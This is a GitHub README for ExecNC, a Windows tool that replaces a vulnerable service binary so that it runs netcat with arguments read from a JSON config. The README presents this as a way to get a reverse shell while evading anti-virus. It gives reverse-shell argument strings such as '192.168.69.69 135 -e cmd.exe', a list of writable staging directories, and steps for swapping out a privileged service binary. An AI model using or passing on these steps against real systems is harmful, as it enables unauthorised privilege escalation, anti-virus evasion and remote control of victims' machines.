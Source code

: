 ﻿ExecNC
=======
![](https://img.shields.io/badge/build-passing-brightgreen) ![](https://img.shields.io/badge/license-GPL%203-blue) ![](https://img.shields.io/badge/execnc-v1.0-blue)


ExecNC is a tool that simply executes a file (usually netcat) with certain parameters.

It serves quite a niche use. When looking to escalate privilege through a reverse shell by replacing a binary
(e.g. A service binary that is regularly executed by a privileged user), one usually opts for MSFVenom. ExecNC was made for when
such a reverse-shell payload is being blocked by an anti-virus and attempts to FUD it aren't working.

Because Netcat (nc.exe) isn't considered a virus, you would want to replace the binary with that instead, however it requires arguments
that you may not be able to configure.

ExecNC is a binary that can replace the vulnerable binary.
It simply executes Netcat with arguments that are specified in a file.
This way, reverse-shell is obtained the same way but with natural anti-virus evasion.


# Features
- Logs to file for help in debugging
  - Includes timestamps so you know when it is executing
  - Also logs the executed file's output
- Natural Anti-virus evasion to get reverse-shell
- Versatile behaviour to bypass common restrictions


# How It Works
ExecNC revolves around the following commonly-writable directories ("CWD"):
```
./ (Current directory)
C:/users/public
C:/users/{UserName}
C:/windows/system32/spool/drivers/color
C:/windows/temp
```
The program will use the first CWD it finds in this order.


## Making the Config File
The config file defines how ExecNC will run. When looking for the config file, ExecNC will look for the first occurrence
of `execnc.json` in the CWDs listed above.

The format is as follows:  
*Note: Backslashes must be escaped.*  
*Note: All properties are optional.*  
*Note: All values must be strings.*
```json
{
  "exec": "C:\\whatever\\nc.exe",
  "args": "localhost 6969 -e cmd.exe -w 3 -v",
  "timeout": "10000",
  "log": "C:\\whatever\\execnc.log",
  "testrun": "false",
  "runmany": "false"
}
```

**exec**: Path to the executable to execute. If omitted, it will look for `nc.exe`
in the CWDs.

**args**: Arguments for the executable as a space-delimited string.

**timeout**: How many milliseconds to wait for before terminating the executable.
If `-1` or omitted, will never timeout.

**log**: Where to log to. Log file will include timestamps and the executed file's output
that are appended instead of overwritten. If it fails to log to your specified
location, it will log to the CWD instead.
Omitt or set to `"false"` to not log to file.

**testrun**: if `"true"`, will do everything but run the executable. Useful for testing.
If omitted, will execute as normal.

**runmany**: If omitted or `"false"`, will not run the executable if it's already running
(i.e. a process with that name already exists).


# Requirements
- Tested on Windows 11


# Basic Example
**Replace `vulnservice.exe` from `execnc.exe`, put `nc.exe` and `execnc.json` in the same folder:**
```
C:\
 └ Program Files
  └ Vulnerable Service
   └ vulnservice.exe.bak
   └ vulnservice.exe
   └ nc.exe
   └ execnc.json
   └ ... 
```

**execnc.json contents:**
```json
{
  "args": "192.168.69.69 135 -e cmd.exe"
}
```

**Running will cause `nc.exe` to be executed with the aforementioned args with no logging.**

*If you are unable to add `nc.exe` and `execnc.json` to the directory, simple add it
to one of the CWDs and ExecNC will find it.*


# Disclaimer
This tool is for educational purposes only.

# Contact
You can email me at kaimo.sec@protonmail.com
